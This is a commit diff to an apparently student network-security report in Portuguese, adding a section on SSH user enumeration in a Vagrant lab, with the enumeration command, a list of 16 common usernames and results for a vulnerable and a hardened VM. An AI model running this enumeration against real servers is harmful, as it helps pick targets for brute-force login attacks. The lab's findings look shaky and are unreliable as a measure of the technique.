

Before and after one commit to FelipeFidelisA/seguranca-redes, a LaTeX document (documents/latex/main.tex): part of page 13 of 15 before the commit and two parts of pages 13 and 14 of 17 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add user enumeration SSH attack test and script
Introduces a new section in the LaTeX documentation detailing methodology, results, and analysis for SSH user enumeration attacks. Adds ataque_enumeracao_usuarios.sh script to automate user enumeration attempts via SSH, supporting the documented test procedures.

```diff
--- a/documents/latex/main.tex
+++ b/documents/latex/main.tex
@@ -395,3 +395,55 @@ MaxAuthTries 3
 PermitEmptyPasswords no
 \end{verbatim}
 
+\subsection{Teste 4: Enumeração de Usuários (User Enumeration)}
+
+\subsubsection{Metodologia}
+Ataque que tenta descobrir quais contas de usuário existem no sistema através de tentativas de conexão SSH. Atacantes usam essa técnica para identificar alvos válidos antes de realizar ataques de força bruta.
+
+\subsubsection{Técnica Utilizada}
+O ataque utiliza o método de tentar autenticação sem credenciais (\texttt{PreferredAuthentications=none}). Usuários válidos retornam mensagem específica "Permission denied", enquanto usuários inválidos podem ter comportamento diferente (timeout, mensagens distintas).
+
+\subsubsection{Comandos Executados}
+\begin{verbatim}
+# Script executado da VM atacante
+bash /vagrant/ataque_enumeracao_usuarios.sh 192.168.56.10
+bash /vagrant/ataque_enumeracao_usuarios.sh 192.168.56.11
+
+# Técnica base:
+ssh -o PreferredAuthentications=none \
+    -o StrictHostKeyChecking=no \
+    -o ConnectTimeout=3 \
+    usuario@IP 2>&1 | grep "Permission denied"
+\end{verbatim}
+
+\subsubsection{Lista de Usuários Testados}
+root, admin, administrator, vagrant, ubuntu, guest, test, user, operator, backup, mysql, postgres, apache, nginx, www-data, nobody (total: 16 usuários comuns)
+
+\subsubsection{Resultados Obtidos}
+
+\textbf{VM alvo (vulnerável):}
+\begin{verbatim}
+Usuários CONFIRMADOS (16):
+- root, admin, administrator
+- vagrant, ubuntu, guest
+- test, user, operator, backup
+- mysql, postgres, apache, nginx
+- www-data, nobody
+
+Taxa de sucesso: 100% (16/16)
+\end{verbatim}
+
+\textbf{VM alvo-hardened (protegida):}
+\begin{verbatim}
+Usuários CONFIRMADOS (6):
+- root, admin, administrator
+- vagrant, ubuntu, guest
+
+NÃO CONFIRMADOS (10):
+- test, user, operator, backup
+- mysql, postgres, apache, nginx
+- www-data, nobody
+
+Taxa de sucesso: 37.5% (6/16)
+Timeouts: 62.5% das tentativas
+\end{verbatim}
```
Also changed, not shown: documents/latex/main.tex (46 more changed lines), 1 other file.
